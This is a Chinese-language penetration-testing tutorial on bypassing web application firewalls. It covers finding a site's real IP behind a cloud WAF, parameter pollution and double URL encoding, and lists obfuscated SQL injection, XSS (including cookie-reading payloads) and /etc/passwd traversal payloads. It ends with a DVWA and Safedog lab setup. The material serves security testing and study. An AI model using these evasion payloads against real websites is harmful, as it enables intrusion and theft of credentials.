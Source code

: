 # BypassWAF

Web应用防护系统（也称为：网站应用级入侵防御系统。英文：Web Application Firewall，简称： WAF）。
利用国际上公认的一种说法：Web应用防火墙是通过执行一系列针对HTTP/HTTPS的安全策略来专门为Web应用提供保护的一款产品。
而在日常的渗透测试当中，如果遇到了拥有WAF防护的网站，当发送带有payload的数据包被防火墙阻断时，则会失去快乐。
所以通过特定的方式绕过防护，是一项有意思的任务。但需要额外注意的是：BypassWAF与免杀是不同的。



## 一 WAF的不同类型

WAF的工作流程图大致如下，可以简单的概况为：WAF在网站服务器前面提供一层过滤攻击流量的功能。



<img src="../../images//image-20230125025950929.png" alt="image-20230125025950929" style="zoom:50%;" />

而WAF提供在部署的方式上，存在着不同的类型。概况下来大致存在三类：

```
1、云WAF
2、铁盒子
3、软件类
```



## 二 BypassWAF的取巧型应对

### 2.1 找到真实IP

在具有WAF的渗透测试场景中，网站的访问流程如下：

```
终端用户-->WAF-->webserver
```

而如果通过修改hosts文件，将访问的流程进行调整，则可以直接跳过WAF的检测。

```
终端用户-->webserver
```

所以寻找到真实IP在应对云WAF的场景中则会是很好用的策略。

寻找真实IP可以采用的思路有几种：

```
1、通过fofa、shadon类的工具搜索title或其他关键字
2、DNS的解析历史
3、通过其他子站点推测
```



### 2.2 寻找无指纹漏洞

WAF在阻断的过程中，常常采用正则表达式或基于行为判定的方式进行阻断。为此WAF在对于没有指纹的攻击方式无能为力。

而常见的无指纹类攻击方式包括：逻辑漏洞、口令类漏洞、CSRF......



## 三 BypassWAF的男人型应对

### 3.1 常用的Bypass方案

在BypassWAF的过程中，所使用的思路可以总结为以下三种方式：

```
1 使WAF跳过输入验证
2 使WAF的解释与后端不一致
3 使WAF未检测到对应的规则
```

1 跳过参数验证：

PHP从参数名中删除空格或将其转换为下划线

```
http://xxx.com/test.php?%20testid=select 1,2,3
```

ASP删除不后面跟着两个十六进制数字的%字符

```
http://xxx.com/test.aspx?%testid=select 1,2,3
```

通过这种方式绕过不拒绝未知参数的WAF。



2 格式错误的HTTP请求方式

配置错误的web服务器可能接受格式错误的HTTP请求方式，可以绕过仅限定定GET和POST方式的WAF。

```
将GET改为hello
```



3 加载waf的负载

如果WAF性能负载过重的情况下，可能会跳过输入验证。通常可以发送打了的恶意请求。

对于嵌入式WAF或许更适用。



4 HTTP参数污染

发送多个同名的参数，如：

```
http://xxx.com/test/?test=1&test=2

ASP.NET中，会处理成test=1,2
JSP中，会处理成test=1
PHP中，会处理成test=2
```

所以当payload为test=select 1,2,3 from tables的时候，可以将其改变为：

```
test=select 1&select 2,3 from tables
```

 

5 双重URL编码

WAF会将URL编码的字符规范化为ASCII文本，所以使用双重编码可能会导致绕过。

```
s --> %73 -->%25%37%33
```

所以可以将payload修改成双重URL编码的格式

```
1 union %25%37%33elect 1,2,3
```



6 使WAF未检测到对应的规则

在找到缺少的规则方式中，需要有一定的流程设计，例如将waf部署好后，关闭拉黑的机制，然后进行fuzz的测试。

为此，整个的测试当中，如果以目的为导向的话，那么的目的是找到一条一句的方式，WAF不认为是恶意语句，但这条的恶意语句可以在网站中执行。

在SQL注入的绕过中，可以尝试的语法方式：

```
###原本为 ’ or 1=1
or 9=9
or 0x47 = 0x47 -->ASCII
or char(32) = ''
or 9 is not null

###原本为 1+union+select+1,2,3/*
1/*union*/union/*select*/select+1,2,3/* 
1/*uniXon*/union/*selXect*/select+1,2,3/*
UNION ALL SELECT

###其他的绕过方式
id=-15 uNloN sELecT 1,2,3,4
id=-15&nbsp;UNlunionON SELselectECT1,2,3,4 
id=1%252f%252a*/UNION%252f%252a/SELECT 
id=-15/*!u%6eion*/ /*!se%6cect*/ 1, 2,3,4...SELECT(extractvalue(ox3C613E61646D6g6É3C2F613E,ox2f61) 
id=10%D6'%20AND%201=2%23 - SELECT 'A'='A'; #1
```

在xss中，可以尝试的语法方式：

```
###原本为:Alert('xss')或Alert (1)
Prompt('xss')
Prompt(454)	
Confirm('xss') 
Confirm(123)
Alert(/xss/.source) 
Window[/alert/.source](8)

###原本为:alert(document['cookie'])
alert(document[/coo/.source+/kie/.source])
alert(document[/cookie/.source])
with(document)alert(cookie)
alert(document.cookie)

###原本为: < img src=x onerror=alert(1);> 或javascript:alert(document.cookie)
<svg/onload=alert(1)>
<video src=x onerror=alert(1);>
<audio src=x onerror=alert(1);>
Data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

在文件包含中，可以尝试的语法方式：

```
###原本为:/etc/passwd
/too/abc/etc/far/.../passwd
/../../../../etc/passwd%oo
/etc//passwd
/etc/ignore/../passwd
/etc/passwd....
```

在文件上传中，可以尝试的方式：

```
文件名的变化
webshell的免杀
```



### 3.2 环境的搭建

```
安装windows server
安装phpstudy
配置phpstudy+dvwa
安装安全狗windows版
如果提示找不到Apache服务，cmd进入到Apache路径中，httpd.exe -k install -n apache2
校验防护是否存在
关闭黑名单功能(IP黑白名单)。
关闭CC攻击防护（资源防护）
```

  <img src="../../images//image-20230126232314267.png" alt="image-20230126232314267" style="zoom: 50%;" />



### 3.3 Bypass方案测试

```
1000'union select user,password from dvwa.users#

使用tools生成大量的payload
python3 tta.py -p "1000'union select user,password from dvwa.users#" -l 3 -o 1
在关闭安全狗防护的情况下，使用burp进行fuzz-->清洗出来可用的payload

在开启安全狗的情况下，使用清洗后的payload进行fuzz，找到可以使用成功的payload
```





